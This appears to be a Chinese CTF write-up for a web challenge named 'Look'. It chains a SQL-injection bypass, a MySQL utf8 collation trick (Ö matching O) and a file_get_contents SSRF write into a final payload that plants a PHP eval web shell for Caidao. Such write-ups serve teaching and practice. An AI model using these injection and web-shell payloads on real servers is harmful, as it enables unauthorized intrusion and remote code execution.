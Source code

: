 ```yaml
---
title: Look
date: 2018-03-19 00:00:02
categories:
- CTF/Web
tags: 百度杯十一月 
--- 
```


## .viminfo

其实直接扫目录就能得到.viminfo，但是题目是这样出的：

访问index.php的头有X-HT: verify，HT当然就是hint啦，尝试在各种地方加入verify参数，最后通过GET提交verify=1有不同的回显。如果值超过四位提示太长，爆破1-4位无果，最终使用`verify='=0%23 `万能密码得到viminfo的提示

访问.viminfo得到提示`5211ec9dde53ee65bb02225117fba1e1.php.backup~~~`

## mysql的UTF-8黑魔法

```php
<?php
$con = mysql_connect('localhost','root','');
mysql_query("set names utf8");
mysql_select_db("ctf");
if($_SERVER["REMOTE_ADDR"]=='8.8.8.8'){
    $name = addslashes($_GET['usern3me']);
}
else{
    if(stripos($_GET['usern3me'],'Bctf2O16')!==false){
        $name = 'FUCK';
    }
    else{
        $name = addslashes($_GET['usern3me']);
    }
}
echo 'hello '.$name;
$sql = "select * from admin where name='$name'";
$result = mysql_query($sql);
$num = mysql_num_rows($result);
if($num>0){
    echo '<br>next ***.php';
}
?>
```

很显然题目的意思是数据库中有name=Bctf2O16的记录，所以在php中过没有这个字符串的判断，在mysql中判断有这个字符串，即需要输入非 Bctf2O(大写O)16但进入数据库查询又当作是Bctf2O16的一个字符串。但是，mysql设置为UTF-8加上php处理GET参数的addslashes的函数，无法进行宽字节注入。这里用到了一个mysql的特性：

> MYSQL 中 utf8_unicode_ci 和 utf8_general_ci 两种编码格式, utf8_general_ci不区分大小写, Ä = A, Ö = O, Ü = U 这三种条件都成立, 对于utf8_general_ci下面的等式成立：ß = s ，但是，对于utf8_unicode_ci下面等式才成立：ß = ss 。
可以看到大写O和Ö是相等的

于是提交?usern3me=Bctf2Ö16，用浏览器访问，burp提交不成功，可能是因为burp的字符集是GBK吧。得到下一个文件：c3368f5eb5f8367fd548b228bee69ef2.php

## getshell

```php

<?php
if(isset($_GET['path']) && isset($_GET['filename'])){
    $path = $_GET['path'];
    $name = "upload/".$_GET['filename'];
}
else{
    show_source(__FILE__);
    exit();
}
if(strpos($name,'..') > -1){
    echo 'WTF';
    exit();
}

if(strpos($path,'http://127.0.0.1/') === 0){
    file_put_contents($name,file_get_contents($path));
}
else{
    echo 'path error';
}
?>
```

- 这里在filename处过滤了`..`又在前拼接上了`upload/`字符串，无法跳出这个目录
- path要求了必须以`http://127.0.0.1/`开头，想到了刚才那个hello usern3me的地方

于是构造：

```
/c3368f5eb5f8367fd548b228bee69ef2.php?filename=1.php&path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php @phpinfo();?>
```

访问/upload/1.php发现`<?php`被截断。其实这里空格应该被url编码，而且应该是两次，因为usern3me这个参数实际上是经过两次url访问才传给处理的页面，第一次是我们通过浏览器的访问，第二次是讲path作为参数通过file_get_contents()访问。

所以构造：

```
/c3368f5eb5f8367fd548b228bee69ef2.php?filename=1.php&path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php%2520@phpinfo();?>
```

访问/upload/1.php发现打印phpinfo，构造木马，菜刀连接即可：

```
/c3368f5eb5f8367fd548b228bee69ef2.php?filename=1.php&path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php%2520eval($_POST[0]);?>
```